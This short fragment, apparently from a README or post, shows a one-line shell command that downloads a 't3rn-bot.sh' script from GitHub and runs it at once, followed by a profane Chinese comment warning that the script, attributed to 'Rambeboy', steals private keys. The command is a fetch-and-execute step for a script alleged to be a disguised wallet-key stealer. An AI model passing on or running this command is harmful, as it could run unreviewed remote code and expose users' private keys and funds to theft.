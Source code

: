 
wget -O t3rn-bot.sh https://raw.githubusercontent.com/sdohuajia/t3rn-bot/refs/heads/main/t3rn-bot.sh && sed -i 's/\r//' t3rn-bot.sh && chmod +x t3rn-bot.sh && ./t3rn-bot.sh

操你麻痹的Rambeboy,大家注意一下这个傻逼的脚本，偷私钥的
